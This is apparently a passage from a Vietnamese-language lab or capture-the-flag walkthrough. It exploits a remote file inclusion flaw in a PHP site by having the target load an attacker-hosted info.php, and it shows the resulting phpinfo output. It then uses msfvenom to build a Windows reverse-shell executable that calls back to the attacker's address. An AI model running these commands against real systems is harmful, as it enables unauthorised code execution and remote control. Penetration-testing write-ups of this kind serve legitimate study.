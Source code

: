 ```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Điều hướng đến file `info.php` được host sẽ xác nhận rằng code đang được thực thi trên target.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/info.php
...
</table>
<table>
<tr class="h"><th>PHP Quality Assurance Team</th></tr>
<tr><td class="e">Ilia Alshanetsky, Joerg Behrens, Antony Dovgal, Stefan Esser, Moriyoshi Koizumi, Magnus Maatta, Sebastian Nohn, Derick Rethans, Melvyn Sopacua, Pierre-Alain Joye, Dmitry Stogov, Felipe Pena, David Soria Parra, Stanislav Malyshev, Julien Pauli, Stephen Zarkos, Anatol Belski, Remi Collet, Ferenc Kovacs </td></tr>
</table>
<table>
<tr class="h"><th colspan="2">Websites and Infrastructure team</th></tr>
<tr><td class="e">PHP Websites Team </td><td class="v">Rasmus Lerdorf, Hannes Magnusson, Philip Olson, Lukas Kahwe Smith, Pierre-Alain Joye, Kalle Sommer Nielsen, Peter Cowburn, Adam Harvey, Ferenc Kovacs, Levi Morrison </td></tr>
<tr><td class="e">Event Maintainers </td><td class="v">Damien Seguy, Daniel P. Brown </td></tr>
<tr><td class="e">Network Infrastructure </td><td class="v">Daniel P. Brown </td></tr>
<tr><td class="e">Windows Infrastructure </td><td class="v">Alex Schoenmaker </td></tr>
</table>
<h2>PHP License</h2>
<table>
<tr class="v"><td>
<p>
This program is free software; you can redistribute it and/or modify it under the terms of the PHP License as published by the PHP Group and included in the distribution in the file:  LICENSE
</p>
<p>This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
</p>
<p>If you did not receive a copy of the PHP license, or have any questions about PHP licensing, please contact license@php.net.
</p>
</td></tr>
</table>
</div></body></html>
```

Bây giờ đã xác nhận target dễ bị tấn công RFI và biết rằng có thể thực thi mã tùy ý, tạo một chương trình thực thi reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=445 -f exe > shell.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
